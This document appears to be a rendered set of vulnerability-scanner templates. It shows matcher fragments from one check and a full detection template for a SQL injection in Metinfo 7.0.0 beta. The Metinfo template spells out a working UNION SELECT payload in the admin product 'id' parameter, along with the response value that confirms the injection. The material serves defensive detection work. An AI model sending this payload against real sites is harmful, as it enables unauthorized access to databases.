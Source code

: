 ### Matchers

**Type - word**

- words
  1. ~lansweeperdb~
- part - body

**Type - word**

- words
  1. text/plain
- part - header

**Type - status**

- status
  1. 500

---

# Metinfo 7.0.0 beta - SQL Injection

## Description

- Metinfo 7.0.0 beta is susceptible to SQL Injection in app/system/product/admin/product_admin.class.php via the admin/?n=product&c=product_admin&a=dopara&app_type=shop id parameter.
- severity - high
- tags - metinfo,sqli,cve,cve2019

## Requests

- Method - GET

### URL

- {{BaseURL}}/admin/?n=product&c=product_admin&a=dopara&app_type=shop&id=1%20union%20SELECT%201,2,3,25367\*75643,5,6,7%20limit%205,1%20%23

### Matchers

**Type - word**

- part - body
- words
  1. 1918835981

**Type - status**

- status
  1. 200

---
